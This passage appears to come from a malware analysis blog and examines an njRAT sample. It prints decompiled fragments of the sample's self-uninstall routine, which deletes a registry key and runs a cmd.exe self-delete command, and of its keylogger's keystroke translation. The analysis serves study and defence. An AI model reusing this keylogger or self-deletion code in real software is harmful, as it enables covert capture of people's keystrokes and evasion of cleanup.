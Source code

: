 Interestingly, this njRAT sample includes an uninstall function that removes itself from the target system.

```java
public static void Uninstall()
{
	try
	{
		Registry.CurrentUser.OpenSubKey("Software", writable: true).DeleteSubKeyTree(registryName);
	}
	catch{}
	try
	{
		Interaction.Shell("cmd.exe /C Y /N /D Y /T 1 & Del \"" + currentAssemblyFileInfo.FullName + "\"", (AppWinStyle)0, false, -1);
	}
	catch{}
	try
	{
		stubMutex.Close();
	}
	catch{}
	Environment.Exit(0);
}
```

Lime.Keylogger.cs
-----------------

The code for the keylogger is quite straightforward:

*   The characters logged are encoded into unicode (I guess to support different keyboard languages).
*   It checks if caps lock and shift key are active at the same time (interesting but kind of expected).
*   Has a typo \[TAP\] instead of \[TAB\] (just funny)

```java
private string Fix(Keys k)
{
	bool flag = keyboard.get_ShiftKeyDown();
	if (keyboard.get_CapsLock())
	{
		// caps lock nullifies the shift key
		flag = ((!flag) ? true : false);
	}

// <-- trimmed -->
		switch (k)
		{
		case Keys.Return:
			break;
		case Keys.Tab:
			return "[TAP]\r\n";
		default:
			if (flag)
			{
				return VKCodeToUnicode((uint)k).ToUpper();
			}
			return VKCodeToUnicode((uint)k);
		}
```
